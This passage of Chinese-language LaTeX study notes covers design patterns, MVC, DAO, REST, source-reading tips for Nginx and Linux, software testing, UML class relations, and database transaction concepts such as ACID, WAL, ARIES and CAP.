用一个中介对象来封装一系列的对象(Colleague)交互。中介者使各对象不需要显式地相互引用,从而使其耦合松散,而且可以独立地改变它们之间的交互。该模式用一对多交互代替多对多交互从而简化对象协议,更容易维护和扩展。例如,一个对话框可以跟多个相互约束的UI控件通信。外观模式为一个子系统提供了一个方便的接口,协议是单向的,而中介者对象则提供了双向交互的协作行为。
\item [MEMENTO(备忘录)]
别名:Token。
在不破坏封装性的前提下,捕获一个对象(原发器,originator)的内部状态, 使得负责人(Caretaker)对象在原发器之外保存这个状态为一个备忘录对象。这样以后负责人对象就可将备忘录对象交给原发器,使原发器恢复到原先保存的状态。该模式简化了原发器,因为状态管理工作不再由原发器负责。使用备忘录可能代价很高。
\item [OBSERVER(观察者)]
别名:依赖(Dependents), 发布-订阅(Publish-Subscribe)。定义对象间的一种一对多的依赖关系 ,当一个对象(目标,subject)的状态发生改变时 , 所有依赖于它的对象(观察者,observer)都得到通知并被自动更新。Subject提供注册和删除observer的接口,observer提供更新通知接口。
例如,Excel中表格中数据改变时,柱状图也相应地改变了。
\item [STATE(状态)]
别名:状态对象(Objects for States)。允许一个对象(Context对象)在其内部状态改变时改变它的行为。对象看起来似乎修改了它的类。
需要实现若干State对象,定义一个接口以封装Context的一个特定状态相关的行为。
State对象将与特定状态相关的行为局部化,且将不同状态的行为分割开,并使得Context对象状态转换显式化、原子化。
如果State对象没有实例变量,则可以作为享元进行共享。
\item [STRATEGY(策略)]
别名:政策(Policy)。
定义一系列的算法 ,把它们一个个封装起来 , 并且使它们可相互替换。本模式使得算法可独立于使用它的客户而变化。
Strategy类层次实现一批算法,Context类用strategy对象进行配置,维护对strategy对象的引用,并定义接口让strategy对象访问它的数据。
该模式是对象继承的替代方法,消除了一些条件语句。客户可以自行选择合适的策略,从而也必须了解不同策略的区别。

\item [TEMPLATE METHOD(模板方法)]
定义一个操作中的算法的骨架,而将一些步骤延迟到子类中。使得子类可以不改变一个算法的结构即可重定义该算法的某些特定步骤。
在基类中定义一个模板方法,调用原语操作。在派生类中重写原语操作。在C++中,模板方法可定义为protected非虚成员函数,原语操作为virtual函数。模板方法通过继承来改变算法的一部分,而Strategy模式使用委托来改变整个算法。
\item [VISITOR(访问者)]
表示一个作用于某对象结构(如语法树)中的各元素的操作。它使你可以在不改变各元素的类的前提下定义作用于这些元素的新操作。
适用情形:一个对象结构包含很多类对象, 而你想对这些对象实施一些依赖于其具体类的操作;定义对象结构的类很少改变,但经常需要在此结构上定义新的操作。
改变对象结构类需要重定义对所有访问者的接口,这可能需要很大的代价。如果对象结构类经常改变,那么可能还是在这些类中定义这些操作较好。



\end{description}


\subsection{委托}
委托(delegation)是对象组合的特例,它使得组合具有与继承相同的复用能力。
State, Strategy和Visitor使用了委托。
State, Strategy都是通过改变受托对象来改变委托对象的行为。
Visitor中,对象结构每个元素上的操作都被委托到Visitor对象。
Mediator,Bridge和Chain of Responsibility则未必那么多地(less heavily)用到了委托。(猜测委托的涵义在于自己不怎么干活)



\subsection{MVC}
控制器掌管着用户的请求,它的主要功能就是调用并协调需要的资源/对象来执行用户请求。
通常控制器会为任务调用合适的模型,以及选择合适的视图。
模型是指运用于数据之上的数据规则和数据内容,它一般对应于应用程序所要管理的对象。
在软件系统中,任何事物都可以被抽象成可以对其以某种方式进行处理的数据模型。

MVC跟设计模式有什么联系?\\
MVC不是一种设计模式(design pattern),它是一种架构模式。
也有人说,MVC模式是一种复合模式(复合设计模式为两种或两种以上设计模式结合在一起)。
MVC中的模型(MODEL)采用了观察者模式。也就是说,如果模型状态改变,对应的视图和控制器状态也会随之改变;MVC中的控制器(Controller)采用了策略模式,视图将行为委托给了控制器,并且可以动态的改变行为,也就是动态的更换控制器;MVC中的视图采用了组合模式,视图中的窗口、面板、按钮、标签等。这些组件有的是组合节点,有的是叶子节点,利用组合模式可以让这些节点采取统一的处理方式。

MVC的好处是什么?\\
易扩展,易维护。MVC的一个最明显好处就是它将视图展示和应用逻辑清晰的分离开来。



\subsection{DAO}

In computer software, a
\href{https://en.wikipedia.org/wiki/Data_access_object}{data access object (DAO)}
 is an object that provides an abstract interface to some type of database or other persistence mechanism.
By mapping application calls to the persistence layer, DAO provide some specific data operations without exposing details of the database. 
This isolation supports the Single responsibility principle. 
It separates what data accesses the application needs, in terms of domain-specific objects and data types (the public interface of the DAO), from how these needs can be satisfied with a specific DBMS, database schema, etc. (the implementation of the DAO).
Although this design pattern is equally applicable to the following: (1- most
programming languages; 2- most types of software with persistence needs; and 3- most types of databases) it is traditionally associated with Java EE applications and with relational databases .



\subsection{REST}

In computing, \href{https://en.wikipedia.org/wiki/Representational_state_transfer}{representational state transfer (REST)} 
is the software architectural style of the Web.
More precisely, REST is an architectural style consisting of a coordinated set
of architectural constraints applied to components, connectors, and data elements, within a distributed hypermedia system. 
REST ignores the details of component implementation and protocol syntax in order to focus on the roles of components, the constraints upon their interaction with other components, and their interpretation of significant data elements.

The term was introduced and defined in 2000 by Roy Fielding in his doctoral dissertation at UC Irvine.
Fielding used REST to design HTTP 1.1 and Uniform Resource Identifiers (URI).
To the extent that systems conform to the constraints of REST they can be called \textbf{RESTful}.
RESTful systems typically, but not always, communicate over Hypertext Transfer Protocol (HTTP) with the same HTTP verbs (GET, POST, PUT, DELETE, etc.) that web browsers use to retrieve web pages and to send data to remote servers.[4] REST systems interface with external systems as web resources identified by Uniform Resource Identifiers (URIs),
 for example /people/tom, which can be operated upon using standard verbs such as DELETE /people/tom.

The formal REST constraints are:
\begin{itemize}
  \item Client–server
  \item Stateless
  \item Cacheable
  \item Layered system
  \item Code on demand (optional)
  \item Uniform interface
  \begin{itemize}
    \item Identification of resources
    \item Manipulation of resources through these representations
    \item Self-descriptive messages
    \item Hypermedia as the engine of application state(HATEOAS)
\end{itemize}
\end{itemize}

Web service APIs that adhere to the REST architectural constraints are called \textbf{RESTful APIs}.
Unlike SOAP-based web services, there is no "official" standard for RESTful web APIs.
This is because REST is an architectural style, while SOAP is a protocol.
Even though REST is not a standard per se, most RESTful implementations make use of standards such as HTTP, URI, JSON, and XML.

The PUT and DELETE methods are referred to as idempotent, meaning that the
operation will produce the same result no matter how many times it is repeated. 
The GET method is a safe method (or nullipotent), meaning that calling it produces no side-effects.








%!Mode:: "TeX:UTF-8"
\section{读书要点}
Q:阅读过哪些经典著作?

A:
\begin{description}
  \item[computer arch(2)] CSAPP, Computer Arch a quantitative approach
  \item[networking and os(2)]top-down approach,modern os
  \item[compilers(1)] dragon book
  \item[programming languages(3)] C++ Primer, Thinking in C++, thinking in Java
  \item[programming idoms and patterns(3)]Gof, programming pearls, Effective C++
  \item[alg(1)]Introduction to Algorithms
  \item[unix(2)]Unix Network Programming, APUE
  \item[Software engieering(2)]The Mythical Man-Month, Peopleware
  \item[non-classics]cryptography and security, big talk storage
\end{description}

\subsection{谭浩强}
谭浩强的风格缺陷:main函数签名不标准,改写静态字符串,域括号后面没有换行,声称要先在纸上写程序再输入。

\subsection{陈皓}
学习编程需要十年;程序员不是青春饭,30岁才入门。

\subsection{ACE}
一般地,I/O多路复用机制都依赖于一个事件多路分离器(Event Demultiplexer)。分离器对象可将来自事件源的I/O事件分离出来,并分发到对应的read/write事件处理器(Event Handler)。开发人员预先注册需要处理的事件及其事件处理器(或回调函数);事件分离器负责将请求事件传递给事件处理器。两个与事件分离器有关的模式是Reactor和Proactor。Reactor模式采用同步IO,而Proactor采用异步IO。可参考ACE源码。

ACE:connectors,pool。
ACE不仅仅是类库,而是通过模式协同在一起的一系列相关的类,如果对设计模式熟悉,那么会用助于学习ACE。





\section{代码阅读心得}

\begin{figure}
  \begin{center}
    
\includegraphics[keepaspectratio,width=0.36\paperwidth]{Pictures/kobject.png}
    \caption{kobject}
    \label{fig:kobject}
  \end{center}
\end{figure}

Nginx 1.0.14 约10万行代码(wc -l返回12万行)。Linux内核2.6.11版本约600万行。SGI STL约有2.4万行。


任何大型的代码都有预分配内存的思想。
Linux上有内存池,slab分配器。
Nginx有slab分配器和内存池。
SGI STL有两级内存分配器,参\ref{sec:memallocidioms}。

封装:struct中只有成员变量的封装,函数指针实际上也是作为变量进行封装。
成员函数封装,在C语言中相当于将操作同一结构的接口放在相同的接口文件中。

继承:ngx\_module\_t中的ctx字段,这种结构实现了继承,ngx\_module\_t相当于基类,而ctx指向派生类成员(包含在ngx\_http\_module\_t等结构中),虽然存储方式不同于C++的派生类。

多态:内核中多态的典型例子是虚拟文件系统。VFS可看做抽象基类,提供struct file\_operations相当于虚函数表。

重载(编译期多态):C语言中经常使用flag变量作为函数参数实现类似重载的效果。

组合:Linux内核中,kobject包含于kset,如图 \ref{fig:kobject}所示。
Linux和中定义有struct list\_head和struct rb\_node(类似于Nginx中的ngx\_queue\_t和ngx\_rbtree\_node\_t),用于生成双链表或红黑树,其他结构中包含它们可以看做组合。


复合型数据结构:如epoll中的epitem节点既属于红黑树,又属于双链表(因为包含list\_head)。前者用于被监控对象插入删除操作(epoll\_ctl),后者是为准备提交给用户的事件。
struct sched\_entity也同时包含struct rb\_node和list\_head。sched\_entity用于CFS(完全公平调度),task\_struct包含了一个sched\_entity。

特性萃取:trait模板、category类体系、重载函数体系。

Nginx用event对象的instance位来处理过期事件问题,instance是bool值,这样做有一定的概率还是会出错,应该改为一个较长的整形,每次
新分配连接时增一,这样,出错的概率极小。

Nginx的过滤模块链表并非链表,而是由各个模块的实现文件中的两个静态变量top和next实现的。




\section{开源代码阅读推荐}
\begin{description}
\item [LwIP] 轻量级协议栈,代码干净,注释详细
\item [memcached] 一套分布式的高速缓存系统, 用CRC-32计算键值后,将数据分散在不同的机器上,数据会以LRU机制替换掉
\item [Redis] Key-Value数据库,C编写,很短,可以全部看下。
\item [Lua] 一门动态语言,提供了一个虚拟机。几万行C代码,简洁优美
\item [uC/OS II]作为一个 RTOS 代码非常不多,分层也挺清楚的
\item [libevent] Libevent是一个轻量级的开源高性能网络库,使用者众多,c语言编写
\item [VxWorks] 美国WindRiver公司RTOS,VxWorks相对简单,模块清晰,代码风格良好
\item [Lucene] 搜索领域的经典项目,是一个高效的,是一个高效的 , 基于Java的全文检索库
\item [Sqlite] sqlite 是一款轻量级的、基于文件的嵌入式数据库,C编写
\item [Duplicity] Python项目。整合已有工具链,实现数据加密增量备份这一任务
\item [Quake III]雷神之锤,一个游戏
\item [trac] 基于Python的软件项目管理系统,拥有强大的bug管理 功能,并集成了Wiki 用于文档管理。它还支持代码管理工具Subversion ,这样可以在 bug管理和Wiki中方便地参考程序源代码
\item [其他] python,LVS,android SDK,BOOST,jdk,spring,openstack,MySQL
\end{description}


















%!Mode:: "TeX:UTF-8"
\section{软件测试}

\subsection{白盒测试}
\textbf{白盒测试(white-box testing)}也称\textbf{结构测试、逻辑驱动测试或基于程序本身的测试}。测试应用程序的内部结构或运作,而不是测试应用程序的功能(即黑盒测试)。在白盒测试时,以编程语言的角度来设计测试案例。测试者输入数据验证数据流在程序中的流动路径,并确定适当的输出,类似测试电路中的节点。测试者了解待测试程序的内部结构、算法等信息,这是从程序设计者的角度对程序进行的测试。

缺点:过分复杂,有时候不切实际,\textbf{它可能会忽视检测规格说明中未被实现的部分}。

主要有基本路径测试(Prime path testing)和逻辑覆盖两种技术设计测试用例。

\textbf{基本路径测试法}是在程序控制流图的基础上,通过分析控制构造的环路复杂性,导出基本可执行路径集合,从而设计测试用例的方法。设计出的测试用例要保证在测试中程序的每个可执行语句至少执行一次。

逻辑覆盖是以程序内部的逻辑结构为基础的设计测试用例的技术。
根据覆盖目标的不同和覆盖源程序语句的详尽程度,逻辑覆盖又可分为:语句覆盖、判定覆盖、条件覆盖、条件/判定覆盖、条件组合覆盖、点覆盖、边覆盖、路径覆盖等。


\subsection{黑盒测试}

\textbf{黑盒测试},软件测试的主要方法之一,也可以称为\textbf{功能测试、数据驱动测试或基于规格说明的测试}。测试者不了解程序的内部情况,不需具备应用程序的代码、内部结构和编程语言的专门知识。只知道程序的输入、输出和系统的功能,这是从用户的角度针对软件界面、功能及外部结构进行测试,而不考虑程序内部逻辑结构。测试案例是依应用系统应该做的功能,照规范、规格或要求等设计。测试者选择有效输入和无效输入来验证是否正确的输出。
此测试方法可适合大部分的软件测试,例如单元测试(unit testing)、集成测试(integration testing)以及系统测试(system testing)。

可采用等价类划分、边界值分析、错误推测法等技术设计测试用例。

等价类划分法是一种典型的、重要的黑盒测试方法,它将程序所有可能的输入数据(有效的和无效的)划分成若干个等价类。然后从每个部分中选取具有代表性的数据当做测试用例进行合理的分类,测试用例由有效等价类和无效等价类的代表组成,从而保证测试用例具有完整性和代表性。

使用边界值分析方法设计测试用例时一般与等价类划分结合起来。但它不是从一个等价类中任选一个例子作为代表,而是将测试边界情况作为重点目标,选取正好等于、刚刚大于或刚刚小于边界值的测试数据。

在测试程序时,人们可能根据经验或直觉推测程序中可能存在的各种错误,从而有针对性地编写检查这些错误的测试用例,这就是错误推测法。



%!Mode:: "TeX:UTF-8"

\section{UML类图}
UML的类图关系分为: 关联、聚合/组合、依赖、泛化(继承)。而其中关联又分为双向关联、单向关联、自身关联。

关系所表现的强弱程度依次为:组合>聚合>关联>依赖。

\subsection{关联}


双向关联:
C1-C2:指双方都知道对方的存在,都可以调用对方的公共属性和方法。

在GOF的设计模式书上是这样描述的:虽然在分析阶段这种关系是适用的,但我们觉得它对于描述设计模式内的类关系来说显得太抽象了,因为在设计阶段关联关系必须被映射为对象引用或指针。对象引用本身就是有向的,更适合表达我们所讨论的那种关系。所以这种关系在设计的时候比较少用到,关联一般都是有向的。

双向关联在代码的表现为双方都拥有对方的一个指针,当然也可以是引用或者是值。

% \begin{figure}[ht]
  % \begin{center}
    % 
\includegraphics[keepaspectratio,width=0.36\paperwidth]{Pictures/UML/UMLdoubleAssoc.JPG}
    % \caption{双向关联}
    % \label{fig:doubleAssoc}
  % \end{center}
% \end{figure}

% 单向关联:
% C3->C4:表示相识关系,指C3知道C4,C3可以调用C4的公共属性和方法。没有生命期的依赖。一般是表示为一种引用。

% \begin{figure}[ht]
  % \begin{center}
    % 
\includegraphics[keepaspectratio,width=0.36\paperwidth]{Pictures/UML/UMLuniAssoc.JPG}
    % \caption{单向关联}
    % \label{fig:uniAssoc}
  % \end{center}
% \end{figure}

% \subsection{组合/聚合}
% 当类之间有整体-部分关系的时候,我们就可以使用组合或者聚合。二者在代码上未必有区别,区别存在于语义上。

% 聚合:表示C9聚合C10,但是C10可以离开C9而独立存在。

% \begin{figure}[ht]
  % \begin{center}
    % 
\includegraphics[keepaspectratio,width=0.36\paperwidth]{Pictures/UML/UMLAggregation.JPG}
    % \caption{聚合}
    % \label{fig:Aggregation}
  % \end{center}
% \end{figure}


% \begin{figure}[ht]
  % \begin{center}
    % 
\includegraphics[keepaspectratio,width=0.36\paperwidth]{Pictures/UML/UMLComposition.JPG}
    % 
\includegraphics[keepaspectratio,width=0.36\paperwidth]{Pictures/UML/UmlCompositionNumbered.png}
    % \caption{组合}
    % \label{fig:UMLComposition}
  % \end{center}
% \end{figure}
% 组合(也有人称为包容、合成):一般是实心菱形加实线箭头表示,如上图所示,表示的是C8被C7包容,而且C8不能离开C7而独立存在。但这是视问题域而定的,例如在关心汽车的领域里,轮胎是一定要组合在汽车类中的,因为它离开了汽车就没有意义了。但是在卖轮胎的店铺业务里,就算轮胎离开了汽车,它也是有意义的,这就可以用聚合了。在《敏捷开发》中还说到,A组合B,则A需要知道B的生存周期,即可能A负责生成或者释放B,或者A通过某种途径知道B的生成和释放。



% 合成(Composition)是一种强的“拥有”关系,体现了严格的部分和整体的关系,部分和整体的生命周期一样。
% 合成关系用实心菱形加实线箭头表示。数字1、2是基数,表明这一端的类可以有几个实例。n表示可能有无数个实例。关联和聚合也可以有基数。

% \subsection{依赖}

% 指C5可能要用到C6的一些方法,也可以这样说,要完成C5里的所有功能,一定要有C6的方法协助才行。C5依赖于C6的定义,一般是在C5类的头文件中包含了C6的头文件。注意,要避免双向依赖。一般来说,不应该存在双向依赖。

% 在形式上一般是A中的某个方法把B的对象作为参数使用(假设A依赖于B)。如下:
% \begin{verbatim}
% #include "B.h"
% class A
% ...{
          % void Func(B &b);
% }
% \end{verbatim}


% \begin{figure}[ht]
  % \begin{center}
    % 
\includegraphics[keepaspectratio,width=0.36\paperwidth]{Pictures/UML/UMLDependancy.JPG}
    % \caption{依赖}
    % \label{fig:UMLDependancy}
  % \end{center}
% \end{figure}

% 那依赖和聚合/组合、关联等有什么不同呢?

% 关联是类之间的一种关系,例如老师教学生,老公和老婆,水壶装水等就是一种关系。这种关系是非常明显的,在问题领域中通过分析直接就能得出。

% 依赖是一种弱关联,只要一个类用到另一个类,但是和另一个类的关系不是太明显的时候(可以说是“uses”了那个类),就可以把这种关系看成是依赖,依赖也可说是一种偶然的关系,而不是必然的关系,就是“我在某个方法中偶然用到了它,但在现实中我和它并没多大关系”。例如我和锤子,我和锤子本来是没关系的,但在有一次要钉钉子的时候,我用到了它,这就是一种依赖,依赖锤子完成钉钉子这件事情。
% 组合是一种整体-部分的关系,在问题域中这种关系很明显,直接分析就可以得出的。例如轮胎是车的一部分,树叶是树的一部分,手脚是身体的一部分这种的关系,非常明显的整体-部分关系。

% 上述的几种关系(关联、聚合/组合、依赖)在代码中可能以指针、引用、值等的方式在另一个类中出现,不拘于形式,但在逻辑上他们就有以上的区别。

% 这里还要说明一下,所谓的这些关系只是在某个问题域才有效,离开了这个问题域,可能这些关系就不成立了,例如可能在某个问题域中,我是一个木匠,需要拿着锤子去干活,可能整个问题的描述就是我拿着锤子怎么钉桌子,钉椅子,钉柜子;既然整个问题就是描述这个,我和锤子就不仅是偶然的依赖关系了,我和锤子的关系变得非常的紧密,可能就上升为组合关系(让我突然想起武侠小说的剑不离身,剑亡人亡...)。这个例子可能有点荒谬,但也是为了说明一个道理,就是关系和类一样,它们都是在一个问题领域中才成立的,离开了这个问题域,他们可能就不复存在了。


% \subsection{泛化}
% 泛化(Generalization)表示一个更泛化的元素和一个更具体的元素之间的关系。泛化是用于对继承进行建模的UML元素。在Java中,用extends关键字来直接表示这种关系。

% \begin{figure}[ht]
  % \begin{center}
    % 
\includegraphics[keepaspectratio,width=0.05\paperwidth]{Pictures/UML/UMLinheri.JPG}
    % \caption{泛化(OOP中“继承”同泛化方向相反)}
    % \label{fig:UMLinheri}
  % \end{center}
% \end{figure}

% \subsection{实现(Realization)}
% OOP中的接口继承用实现(Realization)关系进行建模。
% 实现关系指定两个实体之间的一个合同。换言之,一个实体定义一个合同,而另一个实体保证履行该合同。
% 对Java应用程序进行建模时,实现关系可直接用implements关键字来表示。

% \begin{figure}[ht]
% \centering
	% \begin{minipage}[t]{0.4\textwidth}  
	 % 
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/UML/UmlInterfaceRec.png}
    % \caption{接口继承矩形表示法}
    % \label{fig:UMLInterfaceInheri}
	% \end{minipage}
	% \begin{minipage}[t]{0.4\textwidth} 
   % 
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/UML/UmlInterfaceCandy.png}
    % \caption{接口继承棒棒糖表示法}
    % \label{fig:UMLInterfaceInheri}
	% \end{minipage} 
% \end{figure}



\clearpage






%!Mode:: "TeX:UTF-8"
 \chapter{数据库}

%!Mode:: "TeX:UTF-8"
\section{事务}

\subsection{ACID}
ACID,是指数据库管理系统(DBMS)在写入/异动资料的过程中,为保证交易(transaction)是正确可靠的,所必须具备的四个特性:原子性(atomicity,或称不可分割性)、一致性(consistency)、隔离性(isolation,又称独立性)、持久性(durability)。

\begin{itemize}
    \item    原子性:一个事务(transaction)中的所有操作,要么全部完成,要么全部不完成,不会结束在中间某个环节。事务在执行过程中发生错误,会被回滚(Rollback)到事务开始前的状态,就像这个事务从来没有执行过一样。
    \item  一致性:在事务开始之前和事务结束以后,数据库的完整性没有被破坏。这表示写入的资料必须完全符合所有的默认规则,这包含资料的精确度、串联性以及后续数据库可以自发性地完成预定的工作。例如对于约束a+b=10,一个事务改变了a,就必须改变b。
    \item   隔离性:两个事务的执行是互不干扰的,一个事务不可能看到其他事务运行时,中间某一时刻的数据。
    \item   持久性:在事务完成以后,该事务对数据库所作的更改便持久地保存在数据库之中,,并不会被回滚。
\end{itemize}
由于一项操作通常会包含许多子操作,而这些子操作可能会因为硬件的损坏或其他因素产生问题,要正确实现ACID并不容易。ACID建议数据库将所有需要更新 以及修改的资料一次操作完毕,但实际上并不可行。

目前主要有两类方式实现A和D特性:第一种是Write ahead logging(WAL,预写式日志)。第二种是Shadow paging(影子分页技术)。

预写式日志 (WAL) 是一种实现事务日志的标准方法。有关它的详细描述可以在大多数(如果不是全部的话)有关事务处理的书中找到。 简而言之,WAL 的中心思想是对数据文件的修改(它们是表和索引的载体)必须是只能发生在这些修改已经记录了日志之后, 也就是说,在描述这些变化的日志记录冲刷到永久存储器之后。 如果我们遵循这个过程,那么我们就不需要在每次事务提交的时候都把数据页冲刷到磁盘,因为我们知道在出现崩溃的情况下, 我们可以用日志来恢复数据库:任何尚未附加到数据页的记录都将先从日志记录中重做(这叫向前滚动恢复,也叫做 REDO)。使用 WAL 的第一个主要的好处就是显著地减少了磁盘写的次数。 因为在日志提交的时候只有日志文件需要冲刷到磁盘;而不是事务修改的所有数据文件。 在多用户环境里,许多事务的提交可以用日志文件的一次 fsync() 来完成。而且,日志文件是顺序写的, 因此同步日志的开销要远比同步数据页的开销要小。 这一点对于许多小事务修改数据存储的许多不同的位置更是如此。另外一个好处就是数据页的完整性。实际情况是,在 WAL 之前,PostgreSQL 从来不能保证在崩溃的情况下数据页的完整性。
ARIES是WAL家族中的一个流行的算法。

相对于WAL技术,shadow paging技术实现起来比较简单,消除了写日志记录的开销恢复的速度也快(不需要redo和undo)。shadow paging的缺点就是事务提交时要输出多个块,这使得提交的开销很大,而且以块为单位,很难应用到允许多个事务并发执行的情况——这是它致命的缺点。
Shadow paging is a copy-on-write technique for avoiding in-place updates of pages. Instead, when a page is to be modified, a shadow page is allocated. Since the shadow page has no references (from other pages on disk), it can be modified liberally, without concern for consistency constraints, etc. When the page is ready to become durable, all pages that referred to the original are updated to refer to the new replacement page instead. Because the page is "activated" only when it is ready, it is atomic.

Many databases rely upon locking to provide ACID capabilities. Locking means that the transaction marks the data that it accesses so that the DBMS knows not to allow other transactions to modify it until the first transaction succeeds or fails. The lock must always be acquired before processing data, including data that is read but not modified. Non-trivial transactions typically require a large number of locks, resulting in substantial overhead as well as blocking other transactions. For example, if user A is running a transaction that has to read a row of data that user B wants to modify, user B must wait until user A's transaction completes. Two phase locking is often applied to guarantee full isolation.

An alternative to locking is multiversion concurrency control, in which the database provides each reading transaction the prior, unmodified version of data that is being modified by another active transaction. This allows readers to operate without acquiring locks, i.e. writing transactions do not block reading transactions, and readers do not block writers. Going back to the example, when user A's transaction requests data that user B is modifying, the database provides A with the version of that data that existed when user B started his transaction. User A gets a consistent view of the database even if other users are changing data. One implementation, namely snapshot isolation, relaxes the isolation property.

Guaranteeing ACID properties in a distributed transaction across a distributed database where no single node is responsible for all data affecting a transaction presents additional complications. Network connections might fail, or one node might successfully complete its part of the transaction and then be required to roll back its changes, because of a failure on another node. The two-phase commit protocol (not to be confused with two-phase locking) provides atomicity for distributed transactions to ensure that each participant in the transaction agrees on whether the transaction should be committed or not. Briefly, in the first phase, one node (the coordinator) interrogates the other nodes (the participants) and only when all reply that they are prepared does the coordinator, in the second phase, formalize the transaction.

\subsection{ARIES恢复算法}

ARIES(Algorithms for Recovery and Isolation Exploiting Semantics) is a recovery algorithm designed to work with a no-force, steal database approach; it is used by IBM DB2, Microsoft SQL Server and many other database systems.

ARIES三大原则:
\begin{itemize}
\item   Write ahead logging: Any change to an object is first recorded in the log, and the log must be written to stable storage before changes to the object are written to disk.
\item   Repeating history during Redo: On restart after a crash, ARIES retraces the actions of a database before the crash and brings the system back to the exact state that it was in before the crash. Then it undoes the transactions still active at crash time.
\item   Logging changes during Undo: Changes made to the database while undoing transactions are logged to ensure such an action isn't repeated in the event of repeated restarts.
\end{itemize}


\begin{quotation}
no-force 策略是指,事务提交时不需要原地(in-place)修改。For frequently changed objects, a no-force policy allows updates to be merged and so reduce the number of write operations to the actual database object. A no-force policy also reduces the seek time required for a commit by having mostly sequential write operations to the transaction log, rather than requiring the disk to seek to many distinct database objects during a commit.
\end{quotation}

\subsection{CAP原理}
关系数据库的ACID模型拥有高一致性和可靠性,丧失可用性。

ACID,即原子性(Atomicity)、一致性(Consistency)、隔离性(Isolation)、持久性(Durability)。其中的一致性强调当程序员定义的事务完成时,数据库处于一致的状态。如对于转帐来说,事务完成时必须是A少了多少钱B就多了多少钱。
 
对于很多互联网应用来说,对于一致性要求可以降低,而可用性(Availability)的要求则更为明显。从而产生了弱一致性的理论BASE。 BASE模型反ACID模型,完全不同ACID模型,牺牲高一致性,获得可用性或可靠性。BASE,即Basically Availble(基本可用)、Soft-state (软状态)、Eventual Consistency (最终一致性)。

比如,你在网上书店买书,任何一个人买书这个过程都会锁住数据库直到买书行为彻底完成(否则书本库存数可能不一致),买书完成的那一瞬间,世界上所有的人都可以看到熟的库存减少了一本(这也意味着两个人不能同时买书)。这在小的网上书城也许可以运行的很好,可是对Amazon这种网上书城却并不是很好。
而对于Amazon这种系统,他也许会用cache系统,剩余的库存数也许是之前几秒甚至几个小时前的快照,而不是实时的库存数,这就舍弃了一致性。并且,Amazon可能也舍弃了独立性,当只剩下最后一本书时,也许它会允许两个人同时下单,宁愿最后给那个下单成功却没货的人道歉,而不是整个系统性能的下降。

BASE思想的主要实现有:1.按功能划分数据库;2.sharding碎片。
BASE思想主要强调基本的可用性,如果你需要高可用性,也就是纯粹的高性能,那么就要以一致性或容错性为牺牲,BASE思想的方案在性能上还是有潜力可挖的。

现在NoSQL运动丰富了拓展了BASE思想,可按照具体情况定制特别方案,比如忽视一致性,获得高可用性等等,NOSQL应该有下面两个流派:
1. Key-Value存储,如Amaze Dynamo等,可根据CAP三原则灵活选择不同倾向的数据库产品。
2. 领域模型 + 分布式缓存 + 存储 (Qi4j和NoSQL运动),可根据CAP三原则结合自己项目定制灵活的分布式方案,难度高。
这两者共同点:都是关系数据库SQL以外的可选方案,逻辑随着数据分布,任何模型都可以自己持久化,将数据处理和数据存储分离,将读和写分离,存储可以是异步或同步,取决于对一致性的要求程度。
不同点:NOSQL之类的Key-Value存储产品是和关系数据库头碰头的产品BOX,可以适合非Java如PHP RUBY等领域,是一种可以拿来就用的产品,而领域模型 + 分布式缓存 + 存储是一种复杂的架构解决方案,不是产品,但这种方式更灵活,更应该是架构师必须掌握的。


在分布式数据系统中,也有一个CAP原理,包含三个要素:
\begin{description}
\item [一致性(Consistency)]在分布式系统中的所有数据备份,在同一时刻是否同样的值。
\item [可用性(Availability)]在集群中一部分节点故障后,集群整体是否还能响应客户端的读写请求。(a guarantee that every request receives a response about whether it was successful or failed)
\item [分区容忍性(Partition tolerance)]集群中的某些节点在无法联系后,集群整体是否还能继续进行服务。(the system continues to operate despite arbitrary message loss or failure of part of the system)。所谓网络分区是指网络中出现故障导致网络被分割成几个部分。
\end{description}

一致性就是数据保持一致,在分布式系统中,可以理解为多个节点中数据的值是一致的。
而一致性又可以分为\textbf{强一致性}与\textbf{弱一致性}。
强一致性可以理解为在任意时刻,所有节点中的数据是一样的。同一时间点,你在节点A中获取到key1的值与在节点B中获取到key1的值应该都是一样的。
弱一致性包含很多种不同的实现,目前分布式系统中广泛实现的是最终一致性。最终一致性是弱一致性的一种特例。
所谓最终一致性,就是不保证在任意时刻任意节点上的同一份数据都是相同的,但是随着时间的迁移,不同节点上的同一份数据总是在向趋同的方向变化。也可以简单的理解为在一段时间后,节点间的数据会最终达到一致状态。
对于最终一致性最好的例子就是DNS系统,由于DNS多级缓存的实现,所以修改DNS记录后不会在全球所有DNS服务节点生效,需要等待DNS服务器缓存过期后向源服务器更新新的记录才能实现。
类似的,还有一些其它的弱一致性实现。

